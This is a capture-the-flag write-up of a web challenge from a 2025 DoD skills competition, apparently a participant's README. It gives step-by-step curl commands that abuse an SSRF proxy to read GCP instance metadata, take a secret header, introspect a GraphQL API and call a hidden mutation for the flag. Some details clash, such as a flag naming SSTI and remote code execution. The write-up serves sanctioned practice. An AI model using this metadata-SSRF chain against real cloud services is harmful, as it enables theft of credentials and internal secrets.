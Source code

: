 # 🏳️ The Great Juche Jaguar GraphQL Heist

> A deep-dive into a chained SSRF + GraphQL exploitation challenge from the DoD Cyber Sentinel Skills Challenge for Summer 2025. This was a 300-point web exploitation flag that combined cloud metadata abuse, introspection tactics, and endpoint logic failures.

---

## 🧠 Challenge Summary

The Juche Jaguar team exposed a **GraphQL API** behind a misconfigured **proxy endpoint**. By abusing an SSRF vector to access **GCP metadata**, I extracted a secret header, used that to authenticate to the GraphQL service, performed **introspection**, and discovered a hidden **mutation** that returned the final flag.

This was not your typical GraphQL challenge, it chained together multiple real-world vulnerabilities across layers of cloud infrastructure and API logic.

---

## 🧪 Exploit Chain Overview

- ✅ SSRF through `/proxy?url=` to reach internal metadata
- ✅ Extraction of `X-JJ-SECRET` from GCP instance metadata
- ✅ Use of the secret to access the GraphQL endpoint
- ✅ Manual introspection to discover hidden mutation
- ✅ Base64 decoding of response to retrieve flag

---

## 🧾 Step-by-Step Breakdown

### ✨ 1. SSRF to Access GCP Metadata

Used the vulnerable proxy endpoint to access the internal GCP metadata service:

```bash
curl "http://34.86.186.68:8080/proxy?url=http:%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1/" \
  -H "Metadata-Flavor: Google"
```
This revealed the internal attribute: *X-JJ-SECRET*
--

### 🔑 2. Extracting the Secret Header

Then I pulled the value of that attribute directly:

```bash
curl "http://34.86.186.68:8080/proxy?url=http:%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2FX-JJ-SECRET" \
  -H "Metadata-Flavor: Google"
```
✅ Output: *S3NT1N3L*
--

### 🧩 3. GraphQL Introspection

Armed with the secret, I could now access the protected GraphQL endpoint:

```bash
curl http://34.86.186.68:8080/graphql \
  -H "Content-Type: application/json" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  --data '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```
This revealed a hidden mutation: *m309e5336*
--

### 🚨 4. Invoking the Mutation

I triggered the hidden mutation to retrieve the flag:

```bash
curl http://34.86.186.68:8080/graphql \
  -H "Content-Type: application/json" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  --data '{"query":"mutation { m309e5336 }"}'
```
**Encoded response:**

`eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMxe3NzdDFfcjNtMHQzX2MwZDNfeDNjfSJ9fQ==`

**Decoded output:**

```json
{
  "data": {
    "m309e5336": "C1{sst1_r3m0t3_c0d3_x3c}"
  }
}
```
--

### 🏁 Final Flag

`C1{sst1_r3m0t3_c0d3_x3c}`

---

### 🔍 Key Techniques & Learnings
SSRF via query parameter injection

Cloud metadata enumeration (GCP)

Header-based GraphQL authentication

Manual GraphQL introspection with introspection disabled by default

Response decoding and mutation analysis

---

### 🛠 Tools Used
curl for all HTTP interactions

base64 for decoding the response

Manual query crafting

Logical exploitation & metadata awareness

---

### 👩‍💻 About Me
**Brenda Hensley**

🧠 AppSec & OffSec focused

🛡 TryHackMe: Top 5%

🏆 Placed **247th out of ~2200** in the 2025 **DoD Cyber Sentinel Skills Challenge** with 15/23 challenges completed

🔗 [LinkedIn](https://www.linkedin.com/in/brenda-hensley-/) & [Portfolio](https://brendahensley.tech)

## ✨ Fork it. Learn from it. Break things ethically.
